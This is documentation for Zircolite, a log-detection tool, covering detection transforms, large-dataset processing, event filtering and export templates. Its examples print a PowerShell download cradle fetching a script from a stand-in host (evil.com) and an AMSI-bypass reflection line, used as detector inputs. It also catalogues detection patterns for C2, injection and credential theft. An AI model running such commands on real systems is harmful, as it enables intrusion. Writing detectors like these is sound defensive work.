




# Advanced Use

## Field Transforms

A transform runs a Python function on a field during flattening, in a
[RestrictedPython](https://restrictedpython.readthedocs.io/) sandbox. It can decode data,
extract IOCs, categorise values or flag attack techniques. Use an alias field to preserve
the original value.

Zircolite ships 55 transforms across 11 categories. They are defined in
`config/config.yaml`; most of the code lives in `config/transforms/`.

### Enabling transforms

Two settings in `config/config.yaml` control which transforms run. The shipped
configuration enables the two auditd transforms:

```yaml
transforms_enabled: true

enabled_transforms:
  - proctitle                # Auditd
  - cmd
  # - CommandLine_b64decoded
  # - Image_LOLBinMatch
```

Or enable them from the command line, by category:

```bash
python3 zircolite.py --transform-list                       # show categories
python3 zircolite.py -e logs/ --transform-category commandline --transform-category process
python3 zircolite.py -e logs/ --all-transforms              # everything
```

> [!NOTE]
> `--all-transforms` **ignores `source_condition`**; `--transform-category` respects it.
> Since no shipped transform
> lists `xml_input` or `csv_input`, `--transform-category` is a no-op on XML and CSV input
> — use `--all-transforms` there. The two cannot be combined.

### Defining a transform

Each transform is attached to a field and holds either inline code (`type: python`) or a
reference to a file (`type: python_file`):

```yaml
transforms:
  Image:
    - info: "Extract executable name from Image path"
      type: python_file
      file: image_exename.py
      alias: true
      alias_name: Image_ExeName
      source_condition: [evtx_input, json_input]
      enabled: true
```

Most shipped transforms use `python_file`. `CommandLine_b64decoded` demonstrates inline
`type: python`; its code also ships in `config/transforms/commandline_b64decoded.py`.

| Key | Purpose |
|-----|---------|
| `info` | Short description |
| `type` | `python` (inline `code:`) or `python_file` (load `file:` from disk) |
| `code` | Inline code, with `type: python` |
| `file` | Path to a `.py` file, relative to `transforms_dir`, with `type: python_file` |
| `alias` | `true` → write to a new field; `false` → replace the original value |
| `alias_name` | Name of the new field when `alias: true` |
| `source_condition` | Input types this transform applies to |
| `enabled` | Whether the transform is active |

**Source conditions:** `evtx_input`, `json_input`, `json_array_input`, `xml_input`,
`csv_input`, `db_input`, `sysmon_linux_input`, `auditd_input`, `evtxtract_input`.

`transforms_dir` defaults to `transforms/` **relative to the directory holding the config
file** — so with the shipped `config/config.yaml` that is `config/transforms/`, but with
`-c /opt/zircolite/my.yaml` it is `/opt/zircolite/transforms/`. An absolute path works
too.

Transforms run once for each configured field name. If distinct lists are configured for
the raw and the mapped name, the mapped-name list runs first, then the raw-name list.

### Writing transform functions

The function must be named `transform` and take a single `param` — the field value.
Numeric fields can arrive as numbers; use `str(param)` when a transform expects text.

**Available in the sandbox:** a subset of Python built-ins (`len`, `int`, `str`,
`enumerate`, `min`, `sum`, …); `re`, `base64`, `chardet` and `math`; `dict[k] = v` /
`list[i] = v` writes; and augmented assignments (`+=`, `-=`, …). The four modules are
read-only stand-ins that expose their public functions and constants only (`re.search`,
`base64.b64decode`, `chardet.detect`, `math.log2`, …), not the modules they import in
turn. `import re` and the other three work and return the same stand-in; any other
`import` fails.

**Blocked:** file I/O, network, system calls, other imports, and writes to arbitrary
object attributes.

The sandbox is RestrictedPython, which reduces what transform code can do but is not a
hard security boundary. Treat a transform like any other code you run: only use
configurations and transform files from sources you trust.

Develop against the tester, which uses the exact same sandbox:

```bash
python config/transform_tester.py config/transforms/image_exename.py "C:\Windows\cmd.exe"
python config/transform_tester.py my_transform.py --interactive
python config/transform_tester.py --list-builtins
```

When writing a transform:

- **Return an empty string when nothing matches.** It makes `!= ''` a usable filter.
- **Prefer `alias: true`.** This preserves the original field in the processed event.
- **Keep it fast.** Transforms run on every event.
- **Scope with `source_condition`** so a transform only runs where it makes sense.

### The catalogue

Multi-finding transforms join their results with `|`. Many cap the output at the first
2–4 findings (20 for `ScriptBlockText_NetworkIOCs`), so their value is a sample rather
than the complete set — but the extraction transforms that can produce the most output
are uncapped, including `CommandLine_URLs`, `CommandLine_RegistryPaths`,
`CommandLine_Extracted_Creds`, `CommandLine_HexStrings` and the four `*_b64decoded`.
Where the distinction matters, check the transform's source in `config/transforms/`.

#### Auditd (`auditd`)

These two replace the original value rather than adding a field.

| Field | Produces |
|-------|----------|
| `proctitle` | Hex-encoded proctitle decoded to ASCII |
| `cmd` | Hex-encoded cmd decoded to ASCII |

#### Base64 (`base64`)

| Alias field | Produces |
|-------------|----------|
| `CommandLine_b64decoded` | Decoded Base64 found in the command line |
| `ScriptBlockText_b64decoded` | Decoded Base64 found in a PowerShell script block |
| `Payload_b64decoded` | Decoded Base64 found in a payload field |
| `ServiceFileName_b64decoded` | Decoded Base64 found in a service file name |

All four emit the sentinel `b64_detected_cannot_decode` when Base64 is present but will
not decode — an empty result means no Base64 was found at all.

#### Command line (`commandline`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `CommandLine_URLs` | HTTP/HTTPS/FTP URLs | the URLs themselves |
| `CommandLine_RegistryPaths` | Registry key paths | the paths themselves |
| `CommandLine_Length` | Length bucket | `SHORT:` `NORMAL:` `LONG:` `VERY_LONG:` `EXTREME:` + the length |
| `CommandLine_EntropyScore` | Shannon entropy | `LOW:` `MEDIUM:` `NORMAL:` `HIGH:` `VERY_HIGH:` + the score |
| `CommandLine_XORIndicators` | XOR operations and keys | `BXOR_OP` `BYTE_XOR` `XOR_LOOP` `XOR_KEY:<key>` |
| `CommandLine_AMSIBypass` | AMSI bypass techniques | `AMSI_REF` `AMSI_INIT_FAILED` `AMSI_CONTEXT` `AMSI_SCAN_BUFFER` `AMSI_REFLECTION` `AMSI_DLL` |
| `CommandLine_HexStrings` | Hex-encoded strings | `0x_HEX` `CONT_HEX` `DECODED:<text>` |
| `CommandLine_EnvVarObfuscation` | Environment-variable abuse | `ENV_CHAR_EXTRACT` `MULTI_ENV_VAR:<n>` `ENV:<VAR>` |
| `CommandLine_DownloadCradle` | Download cradles | `DOWNLOADSTRING` `DOWNLOADFILE` `DOWNLOADDATA` `INVOKE_WEBREQUEST` `INVOKE_RESTMETHOD` `WEBCLIENT` `BITSTRANSFER` `CERTUTIL_DOWNLOAD` `BITSADMIN_DOWNLOAD` `CURL_WGET` |
| `CommandLine_EvasionTechniques` | Hollowing, injection, ETW | `PROCESS_HOLLOWING` `REFLECTIVE_DLL` `TOKEN_MANIPULATION` `MEMORY_ALLOC` `REMOTE_THREAD` `SYSCALL` `ETW_BYPASS` |
| `CommandLine_LateralMovement` | Remote-execution tooling | `LATERAL:` + `PSEXEC` `REMOTE_SERVICE` `WMI` `WINRM` `RDP` `SMB` `SSH` `DCOM` `AT_REMOTE` |
| `CommandLine_DataStaging` | Collection before exfiltration | `STAGING:` + `ARCHIVE` `BULK_COPY` `DB_DUMP` `EMAIL_COLLECT` `FILE_HUNT` `AD_DUMP` |
| `CommandLine_C2Indicators` | C2 framework fingerprints | `C2:` + `COBALT_STRIKE` `METASPLOIT` `SLIVER` `EMPIRE` `HAVOC` `COVENANT` `GENERIC_PIPE` |
| `CommandLine_PersistenceCategory` | Persistence mechanisms | `PERSIST:` + `SCHED_TASK` `SERVICE` `REG_RUN` `WMI_SUB` `STARTUP_FOLDER` `DLL_SEARCH` `CRON` `SYSTEMD` `LAUNCH_AGENT` `BOOT` |
| `CommandLine_ReconIndicators` | Reconnaissance commands | `RECON:` + `SYSINFO` `NETWORK` `USER_ENUM` `DOMAIN` `SHARE` `PROCESS` `SECURITY` |
| `CommandLine_ConcatDeobfuscate` | Concatenation obfuscation | `DEOBF:CARET` `DEOBF:CONCAT:<reconstructed>` `DEOBF:FORMAT_OP` `DEOBF:BACKTICK` `DEOBF:ENV_SUBSTR` |
| `CommandLine_CryptoMining` | Mining pools, wallets, miners | `MINING:PROTOCOL` `MINING:POOL:<name>` `MINING:TOOL:<name>` `MINING:MINER_ARGS` and `MINING:WALLET:` + `MONERO` `BITCOIN` `ETHEREUM` |
| `CommandLine_InjectionTechnique` | Injection technique class | `INJECT:` + `CLASSIC` `ALLOC_WRITE` `HOLLOWING` `APC` `THREAD_HIJACK` `CALLBACK` `MAPPING` `ETW_BYPASS` `SHELLCODE_ALLOC` |

#### Credentials (`credentials`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `CommandLine_Extracted_Creds` | Credentials passed to `net`, `wmic`, `psexec` | the matched credential strings |

#### Process (`process`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `Image_ExeName` | — | the executable name, without the path |
| `Image_LOLBinMatch` | Living-off-the-land binaries | `LOLBIN:<name>` |
| `Image_TyposquatDetect` | Typosquatted process names | `TYPOSQUAT:<target>(<techniques>)`, techniques being a comma-separated selection of `HOMOGLYPH` `CHAR_ADD` `CHAR_OMIT` `CHAR_SWAP` |
| `Image_PathAnomaly` | Execution from odd locations | `TEMP_DIR` `WINDOWS_TEMP` `USER_TEMP` `APPDATA` `DOWNLOADS` `USER_DESKTOP` `USER_MEDIA_DIR` `RECYCLE_BIN` `PUBLIC_PROFILE` `PERFLOGS` |
| `Image_StagingDirectory` | Known staging directories | `STAGING:` + `ProgramData` `WindowsTemp` `RootTemp` `PerfLogs` `PublicProfile` `RecycleBin` `UNC_Path` `LinuxTmp` `DevShm` `VendorFolder` |
| `Image_MasqueradeDetect` | System binaries in the wrong directory | `MASQUERADE:<exe_name>` |
| `ParentImage_ExeName` | — | the parent executable name |
| `ParentImage_SpawnAnomaly` | Suspicious parents | `ANOMALY:` + `OFFICE_SPAWN` `BROWSER_SPAWN` `PDF_SPAWN` `SCRIPT_CHAIN` `WMI_SPAWN` `TASK_SPAWN` `JAVA_SPAWN` |

`Image_TyposquatDetect` whitelists ~170 legitimate Windows executables and compares
against 31 impersonation targets. Targets are five characters or more, because at shorter
lengths an edit distance of one matches almost anything; short names such as `cmd`, `dwm`,
`smss` and `wmic` are whitelisted instead, so they are never flagged themselves.

#### PowerShell (`powershell`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `ScriptBlockText_ObfuscationIndicators` | Obfuscation constructs | `CHAR_SUBST` `STR_CONCAT` `JOIN_OP` `FORMAT_STR` `VAR_SUBST` `ENC_CMD` `GZIPSTREAM` `FROMBASE64` `IO_COMPRESSION` `DEFLATESTREAM` `MEMORYSTREAM` |
| `ScriptBlockText_XORPatterns` | XOR keys and loops | `XOR_KEY:<key>` `XOR_LOOP` `BYTE_ARRAY_XOR` `COMMON_XOR_KEY:<key>` |
| `ScriptBlockText_ReflectionAbuse` | .NET reflection abuse | `ASSEMBLY_LOAD` `DYNAMIC_LOAD` `TYPE_REFLECTION` `INVOKE_METHOD` `GET_MEMBER` `DELEGATE_CREATION` |
| `ScriptBlockText_ShellcodeIndicators` | Shellcode execution | `EXEC_MEMORY_ALLOC` `KERNEL32_REF` `NTDLL_REF` `CREATE_THREAD` `NOP_SLED` `MEMORY_COPY` `POINTER_OP` |
| `ScriptBlockText_NetworkIOCs` | Embedded IOCs | `IP:<addr>` `URL:<url>` `DOMAIN:<domain>` |
| `ScriptBlockText_StagerDetect` | Stager patterns | `STAGER:` + `REFLECTION_LOAD` `STAGED_IEX` `INMEMORY_NET` `AMSI_THEN_EXEC` `APPDOMAIN` `RUNSPACE` `CLM_BYPASS` `WIN32_API` |
| `ScriptBlockText_PackerIndicators` | Packers and crypters | `PACKER:` + `GZIP` `DEFLATE` `MULTI_ENCODE` `NESTED_IEX` `CUSTOM_ENCODING` `REVERSAL` `VAR_SUBSTITUTION` `INVOKE_OBFUSCATION` `SECURESTRING` |

#### Network (`network`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `QueryName_TLD` | — | the top-level domain |
| `QueryName_EntropyScore` | DGA candidates | the entropy score as a number (`0` when not applicable) |
| `QueryName_TyposquatDetect` | Typosquatted well-known domains | `TYPOSQUAT_<class>:<target>(<techniques>)` and `SUSPICIOUS_TLD:<tld>`. Classes: `GOV_US` `GOV_UK` `GOV_EU` `GOV_FR` `GOV_DE` `BANK` `CRYPTO` `TECH` `EMAIL` `CLOUD` `SECURITY` `SHIPPING`. Techniques: `HOMOGLYPH` `CHAR_SWAP` `CHAR_MANIP` `AFFIX` `EMBEDDED` `SIMILAR`. |
| `QueryName_SubdomainAnalysis` | Tunnelling-shaped subdomains | `DNS:DEEP_SUB:<depth>` `DNS:LONG_SUB:<length>` `DNS:HEX_SUBDOMAIN` `DNS:B64_SUBDOMAIN` `DNS:HIGH_ENTROPY_SUB` `DNS:NUMERIC_SUB` — in that order, and only the first four survive the cap |
| `DestinationIp_ObfuscationCheck` | Hex/octal/decimal IP encoding | `OBFUSCATED_IP:<value>` |
| `DestinationPort_Category` | Port purpose | 58 labels — the named services (`HTTP` `HTTPS` `SMB` `RDP` `SSH` `WINRM` `KERBEROS` `LDAP` `MSSQL` `DOCKER` `METASPLOIT_DEFAULT` …) plus the catch-alls `WELL_KNOWN`, `EPHEMERAL` and `HIGH_PORT`, which is what most traffic lands on. See `config/transforms/destinationport_category.py` for the full map. |

#### File (`file`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `TargetFileName_URLDecoded` | — | the URL-decoded path |
| `TargetFileName_DoubleExtension` | Double-extension tricks | `DOUBLE_EXT:<ext1>.<ext2>`, e.g. `DOUBLE_EXT:pdf.exe` |
| `TargetFileName_SensitiveFile` | Access to security-sensitive files | `SENSITIVE:` + `CREDENTIAL_STORE` `NTDS` `SSH_KEY` `CERT_PRIVATE` `BROWSER_DATA` `CONFIG` `MEMORY_DUMP` |

#### User and authentication (`user`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `User_Name` | — | the username, without the domain |
| `User_Domain` | — | the domain part of the user field |
| `LogonType_Description` | — | `SYSTEM` `INTERACTIVE` `NETWORK` `BATCH` `SERVICE` `UNLOCK` `NETWORK_CLEARTEXT` `NEW_CREDENTIALS` `REMOTE_INTERACTIVE` `CACHED_INTERACTIVE` `CACHED_REMOTE_INTERACTIVE` `CACHED_UNLOCK`, or `UNKNOWN:<value>` |

#### Hash (`hash`)

| Alias field | Produces |
|-------------|----------|
| `Hash_MD5` | The MD5 value out of Sysmon's `Hashes` field |
| `Hash_SHA256` | The SHA256 value out of Sysmon's `Hashes` field |

#### Registry (`registry`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `TargetObject_SuspiciousRegistry` | Persistence keys | `RUN_KEY` `SERVICE_KEY` `IFEO` `APPINIT_DLLS` `WINLOGON` `COM_HIJACK` `SCHED_TASK` `SECURITY_POLICY` |

### Transforms in action

```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://evil.com/mal.ps1')"
```
`CommandLine_DownloadCradle` → `DOWNLOADSTRING|WEBCLIENT` · `CommandLine_URLs` → `http://evil.com/mal.ps1`

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```
`CommandLine_AMSIBypass` → `AMSI_REF|AMSI_REFLECTION`

```
C:\Users\Public\svch0st.exe
```
`Image_TyposquatDetect` → `TYPOSQUAT:svchost(HOMOGLYPH)`

```
micros0ft.xyz
```
`QueryName_TyposquatDetect` → `TYPOSQUAT_TECH:microsoft(HOMOGLYPH,CHAR_SWAP)|SUSPICIOUS_TLD:xyz`

### Querying transform results

Alias fields are ordinary columns, so Sigma rules can match them and SQL can query them.
Keep the database with `--unified-db --dbfile events.db` (without `--unified-db`, each input
gets its own `events_<input name>.db`):

```sql
-- Obfuscated commands: long and high-entropy
SELECT * FROM logs
WHERE CommandLine_Length LIKE 'EXTREME%' AND CommandLine_EntropyScore LIKE 'VERY_HIGH%';

-- Lateral movement, in order
SELECT SystemTime, CommandLine, CommandLine_LateralMovement FROM logs
WHERE CommandLine_LateralMovement != '' ORDER BY SystemTime;

-- Which injection techniques appear, and how often
SELECT CommandLine_InjectionTechnique, COUNT(*) AS n FROM logs
WHERE CommandLine_InjectionTechnique != '' GROUP BY 1 ORDER BY n DESC;
```

The same fields appear in `detected_events.json`, under each detection's `matches`:

```bash
# Every LOLBin seen, deduplicated
jq -r '[.[].matches[].Image_LOLBinMatch // empty] | unique | .[]' detected_events.json

# C2 indicators with context, as CSV
jq -r '.[].matches[] | select(.CommandLine_C2Indicators // "" != "")
    | [.SystemTime, .Computer, .User, .Image, .CommandLine_C2Indicators] | @csv' detected_events.json
```

## Working with Large Datasets

Automatic mode selects a shared database or one database per file. Sequential per-file
processing limits event storage to one file at a time; parallel processing holds a
database for each active worker. Use `--working-db disk` to store working databases on disk.

### Automatic processing optimization

Given several files, Zircolite measures them against available RAM and CPU, picks a
database mode, and decides whether parallel processing is worth it:

```shell
python3 zircolite.py --evtx ./logs/ --ruleset rules/rules_windows_merged.json
```

```
[+] Analyzing workload...
    [>] Files       4 (478.2 MB total, avg 119.6 MB)
    [>] System      33.7 GB RAM available, 10 CPUs
    [>] DB Mode     PER-FILE
                    Few large files detected (4 files, avg 119.6 MB)
    [>] Parallel    ENABLED (4 workers)
```

**Database mode.** The rules are tried in order; the first match decides. When
[correlation rules](Usage.md#sigma-correlation-rules) are loaded and there are several
files, automatic mode uses one database so correlations can span files. With
`--no-auto-mode`, files remain separate unless `--unified-db` is also set.

| # | Condition | Mode | Reason |
|---|-----------|------|--------|
| 1 | Single file | Per-file | Nothing to unify |
| 2 | Less than 2 GB RAM available | Per-file | Safer when memory-constrained |
| 3 | Estimated footprint > 85% of available RAM | Per-file | Avoid running out of memory |
| 4 | 10+ files averaging 5 MB or less | Unified | Less overhead, enables cross-file correlation |
| 5 | Fewer than 5 files averaging 50 MB or more | Per-file | Memory-efficient |
| 6 | 8 GB+ RAM and 3+ files | Per-file | Leaves the files free to run in parallel |
| 7 | Any other run of 10+ files | Unified | Enables cross-file correlation |
| 8 | Anything else | Per-file | Default |

Rule 3 compares an *estimate*, not the size on disk: an in-memory SQLite database is
several times larger than the log it was built from, so the total is multiplied by 3.5 to
5.0 depending on average file size. In practice it triggers somewhere between RAM/4 and
RAM/6 of input.

**Parallel processing.** Also tried in order:

| # | Condition | Parallel | Reason |
|---|-----------|----------|--------|
| 1 | Single file | Disabled | No benefit |
| 2 | Less than 1 GB RAM available | Disabled | Safety |
| 3 | Fewer than 2 workers affordable | Disabled | Not enough resources to parallelise |
| 4 | Estimated footprint of the **largest** file > 60% of usable RAM | Disabled | Prevent running out of memory |
| 5 | Multiple files, enough memory | Enabled | Faster |

The memory test uses the largest single file rather than the average, because one
outsized file is what actually exhausts a worker.

**Overriding it:**

```shell
python3 zircolite.py --evtx logs/ --ruleset rules.json --no-auto-mode       # keep per-file
python3 zircolite.py --evtx logs/ --ruleset rules.json --unified-db         # one database
python3 zircolite.py --evtx logs/ --ruleset rules.json --no-parallel
python3 zircolite.py --evtx logs/ --ruleset rules.json --parallel-workers 8
python3 zircolite.py --evtx logs/ --ruleset rules.json --parallel-memory-limit 80
```

### Parallel processing

The default `--executor auto` selects processes for parallel per-file workloads
holding at least 32 MiB of input in total when CPU and RAM permit at least two process
workers. Smaller workloads use threads: below that size, the second or two each process
spends loading the ruleset is not repaid. Explicit `--executor thread` and `--executor
process` override selection; `--no-auto-mode` makes automatic executor selection use
threads. Process workers stop at the CPU count and at one interpreter's memory each
(128 MB plus the file's estimate), since every one of them holds the ruleset.
Beyond picking a worker count, the parallel path:

- **Schedules largest-first**, so big files start early and small ones fill the gaps at
  the end.
- **Throttles submissions** when memory pressure exceeds `--parallel-memory-limit`
  (85% by default), new submissions are deferred until in-flight work finishes and memory
  drops back. Estimates include newly submitted files when refilling the pool.
- **Recalibrates** after the first file completes, blending the measured memory-per-file
  ratio into the estimate for the rest.
- **Reads the field-mappings config once** and hands each worker a copy, rather than
  re-reading it per worker.
- **Rebuilds the table between files**, so each input is typed by its own events. See
  [Internals → Typing and collation](Internals.md#typing-and-collation).
- **Writes results as each file completes**, except in `--csv` mode, where the header has
  to cover every result column. CSV rows are spooled until the header is known, or retained
  in memory when templates or packaging also need them.

### The streaming pipeline

Every input format is read the same way: extraction, flattening and insertion happen in
a single pass, with no intermediate files. What is selectable is how the database is
organised across files — see [Internals → Processing modes](Internals.md#processing-modes).

`--keepflat` writes the flattened events to `flattened_events_<RAND>.json` in the working
directory as they are processed. The contents are JSONL — one event per line — despite the
extension. It contains only events that were actually processed: anything dropped by early
event filtering or by `--after`/`--before` is not there. To retain every successfully read
event from the selected files, use `--no-event-filter` and remove time bounds from both
the command line and run configuration.

### Memory usage

Memory is sampled at phase boundaries and reported as a sampled peak. While process
workers run, and for the whole run when `--performance-json` is given, RSS of the
process tree is also sampled every 100 ms; peaks shorter than that can be missed, and a
tree whose descendants cannot be inspected is reported as incomplete. Per-file mode
releases each database after use; parallel runs hold several worker databases at once.

Use [file filters](#file-filters) to skip irrelevant files and `--no-recursion` to exclude
subdirectories. Early event filtering reduces the events loaded into each database.

### Early event filtering

Zircolite can discard events **before** flattening and insertion, based on **Channel**
and **EventID**, so only events that could match some rule's log source are loaded.

**Sysmon for Linux and auditd are exempt** — they carry no Channel or EventID — unless
`event_filter.filter_all_sources` is set. Every other format (EVTX, JSON, JSON array, CSV,
XML and EVTXtract) goes through the filter, because any of them can carry Windows-shaped
events. A saved database (`--db-input`) skips ingestion altogether, so it is never
filtered. In per-channel mode, an event with no usable Channel is kept.

The filter runs before flattening, so it reads Channel and EventID from the raw event
through `event_filter.channel_fields` and `eventid_fields`, not from the columns the
rules query. When an event carries several of those fields with different values (a
top-level `Channel` next to `winlog.channel`, say), the flattener decides which one lands
in the column, so the filter treats the value as unusable and keeps the event.

Whether those paths can be trusted is decided once, from the configuration. The filter
is turned off, with a log line naming the cause, when a mapping from another path, an
alias or an active transform can write Channel or EventID: a transform that strips spaces
from `" Security "`, for example, must run before a rule tests `Channel='Security'`.
Disabled transforms, transforms for another input type and transforms on unrelated
fields leave the filter on. Split keys and unmapped nested fields that happen to be
named Channel or EventID are not considered; use `--no-event-filter` if your data
relies on them.

> [!IMPORTANT]
> The filter only engages when the ruleset yields usable Channel or EventID bounds.
> A rule can bound EventID without naming a channel. A ruleset without either bound
> leaves the filter disabled and every event is processed.

#### How the bounds are derived

When rules are loaded, each **Channel** in the ruleset is mapped to the set of **EventID**
values the rules on that channel can actually match.

Those eventIDs are read from each rule's **SQL**, not from its `eventid` metadata. The
metadata is collected from every detection group — including negated `filter:` blocks —
without regard to the rule's `condition`, so it is a bag of values rather than a set of
eventIDs the rule matches. A rule written as

```yaml
detection:
    selection:
        Channel: Security
    filter:
        EventID: 4624
    condition: selection and not filter
```

has `eventid: [4624]` metadata, although its condition excludes that ID. The filter must
derive bounds from the SQL condition to preserve matching events.

**Uncertain bounds leave the channel unbounded**, preserving events for the full rule
query. This applies when the rule's SQL:

- constrains `EventID` under a `NOT`, where the listed values are the ones it refuses;
- has an `OR` branch that does not constrain `EventID` at all, so that branch can match
  anything;
- does not mention `EventID`, or constrains it in a form this cannot read (`BETWEEN`,
  `>`, `LIKE`);
- belongs to a legacy **correlation** rule, whose subquery shape is deliberately not
  second-guessed.

A rule naming a channel but no eventID leaves that channel unbounded without affecting
the bounds on other channels.

#### What gets discarded

An event is discarded when its Channel is claimed by no rule, or when that channel carries
a finite eventID set and the event's EventID is not in it. An event with no usable Channel,
or no usable EventID on a bounded channel, is **kept** — too little information to discard
it safely. Channel matching is case-insensitive.

The per-channel bounds do not apply in three cases. A rule constraining eventIDs but no
channel cannot be keyed by channel, so a ruleset containing one falls back to two
independent global axes, each filtering only when every rule constrains it. A correlation
rule converted by the SQLite backend 2 carries a correlation plan, and the filter is off
for the whole run while one is loaded: the latest timestamp in the input, matched or not,
is where its observation ends, and an absence condition such as `a and not b` waits for
events no rule matches. And a legacy correlation rule (backend 1) carries no channel
metadata at all: its channel is read from the SQL embedding the base rule's detection. If
that names no channel either — pySigma emits correlation queries without one when the
logsource carried no pipeline — filtering is switched off for the whole run rather than
guessed at.

#### Configuration and reporting

Channel and EventID are read through configurable field paths, so pre-flattened and ECS
logs work as well as raw EVTX: `Event.System.Channel`, `Channel`, `winlog.channel`, and
the matching eventID paths. See `event_filter` in `config/config.yaml`.

At load time Zircolite reports what it will filter on:

```
[+] Event filter enabled: 36 channels, 34 EventID-bounded (214 channel/eventID pairs)
[+]   any EventID allowed on: Security, Windows PowerShell
```

The second line names the channels no rule narrowed — the reason those channels are not
being reduced.

The summary panel reports the filter whenever it was active, so a run that dropped nothing
is distinguishable from one where the filter never ran:

```
📊 Events   1,234,567  (412,003 filtered out — 75.0% match rate)
📊 Events   1,234,567  (0 filtered out — every event matched a rule's log source)
```

Events dropped by `--after`/`--before` are counted separately, on their own `Time range`
row, because the two filters act at different stages.

Disable the whole mechanism with `--no-event-filter`, or `enabled: false` in the config.
`--package` turns it off as well, because a package holds every event of the run, and logs
`Event filtering disabled: --package keeps every event`; see [Package viewer](#package-viewer).

## Keeping Data Used by Zircolite

Several options keep the data behind the detections:

- `--dbfile <FILE>` writes the SQLite database to disk, so you can query the logs with SQL
  and find things the rules did not. In per-file mode each input gets its own file.
- `--keepflat` saves the flattened events as JSONL — only the events actually processed
  (see [the streaming pipeline](#the-streaming-pipeline)).
- **Indexes** can speed up database queries. `--add-index`, `--remove-index` and
  `--auto-index` are covered in [Usage → Database indexes](Usage.md#database-indexes).

## Filtering

### File filters

Skip files outside your analysis scope with `--select`,
`--avoid`, `--file-pattern` and `--no-recursion` (see
[Input files and filtering](Usage.md#input-files-and-filtering) for the exact semantics).

```shell
# Only Sysmon logs
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --select sysmon

# Everything except the diagnostic archive
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --avoid systemdataarchiver

# Operational logs, but not Defender's
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --select operational --avoid defender

# A glob instead
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --file-pattern "Security*.evtx"
```

> [!IMPORTANT]
> Both match the **filename only**, never the directory path. `--select HOST01` will not
> select `logs/HOST01/Security.evtx`, and `--avoid HOST02` will not exclude
> `logs/HOST02/` — it silently excludes nothing. Use `--file-pattern`, or point `--events`
> at the directory you actually want.

File filters skip inputs before opening them. [Early event filtering](#early-event-filtering)
instead checks Channel and EventID after reading events; it normally excludes Linux and
auditd sources from filtering.

### Time filters

`--after` / `-A` and `--before` / `-B` restrict processing to a time range. Both bounds
are inclusive and can be used independently.

```shell
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json \
    -A 2021-06-02T22:40:00 -B 2021-06-02T23:00:00
```

- The value must be `YYYY-MM-DDTHH:MM:SS`, 24-hour.
- The filter reads the field named by `--timefield` (`SystemTime` by default), falling
  back to the auto-detected timestamp field when that one is absent.
- Event timestamps are compared as instants, so epoch seconds or milliseconds (`0`
  included), a trailing `Z`, an explicit UTC offset and a space instead of `T` are all
  understood.

### Rule filters

Some rules are noisy or slow on a particular dataset. `-R` / `--rulefilter` skips them by
title; repeat it for more. Comparison is **case-sensitive**:

```shell
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json -R MSHTA
```

To find out which rules are slow on *your* data, run with `--profile-rules` and read the
Rule Performance report — see
[Usage → Rule performance profiling](Usage.md#rule-performance-profiling).

### Limiting noisy rules

`--limit <N>` discards the output of any rule matching more than N events, or alerts for a
correlation rule. It does not reduce the work to evaluate the rule. The count is
**per input database**: per file in per-file mode, across the corpus in unified mode.
Use `-1` to disable the limit.

## Templating and Formatting

Output can be reshaped with Jinja2 templates, for Splunk, ELK, Timesketch and others:

```shell
python3 zircolite.py --evtx sample.evtx --ruleset rules/rules_windows_merged.json \
    --template templates/exportForSplunk.tmpl --templateOutput exportForSplunk.json
```

Pair one `--templateOutput` with each `--template` to write several at once. Shortcuts:

```shell
python3 zircolite.py --evtx sample.evtx --ruleset rules/rules_windows_merged.json --timesketch
python3 zircolite.py --evtx sample.evtx --ruleset rules/rules_windows_merged.json --navigator-output
```

`--timesketch` writes `timesketch-<RAND>.json`; `--navigator-output` writes
`navigator-<RAND>.json`, or a name you give it. The random suffix means repeated exports
do not overwrite each other.

### Available templates

| Template | Output | Use case |
|----------|--------|----------|
| `exportForSplunk.tmpl` | NDJSON | Splunk HEC or bulk import |
| `exportForSplunkWithRuleID.tmpl` | NDJSON | Splunk, with the rule ID for correlation |
| `exportForELK.tmpl` | NDJSON | Elasticsearch / ELK |
| `exportForZinc.tmpl` | Bulk JSON | OpenSearch/Elasticsearch bulk API — each record preceded by an `index` action line |
| `exportForTimesketch.tmpl` | NDJSON | Timesketch; shortcut `--timesketch` |
| `exportNDJSON.tmpl` | NDJSON | Generic: rule metadata plus event fields |
| `exportSummaryCSV.tmpl` | CSV | One row per rule, for triage |
| `exportForSARIF.tmpl` | JSON | [SARIF](https://sarifweb.azurewebsites.net/), for CI pipelines |
| `exportForAttackNavigator.tmpl` | JSON | [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) layer; shortcut `--navigator-output` |

### Append mode

Template output is overwritten by default. Use `--template-append` to accumulate records:

```shell
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json \
    --template templates/exportForSplunk.tmpl --templateOutput exportForSplunk.ndjson \
    --template-append
```

```yaml
output:
  templates:
    - template: templates/exportForSplunk.tmpl
      output: exportForSplunk.ndjson
  template_append: true
```

> [!WARNING]
> Append mode only suits **line-oriented** templates — everything in the table above that
> emits NDJSON or bulk JSON. The two that emit a **single JSON document**,
> `exportForAttackNavigator.tmpl` and `exportForSARIF.tmpl`, become invalid when a second
> document is concatenated onto the first.

## Package viewer

A package is one zip file that holds every event Zircolite ingested during a run, not only
the events a rule matched, together with the detections, the correlation alerts and a summary
of the run. It opens in a web browser straight from disk: there is nothing to install and no
server to run, and the page makes no network request, which its content security policy
forbids. Whoever receives the zip can search the events, filter them and move between
detections, hosts, accounts and processes offline.

The viewer is tested in current versions of Chromium, Firefox and WebKit. On large packages,
Chromium-based browsers and Safari tend to answer faster than Firefox.



### Making a package

```shell
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --package
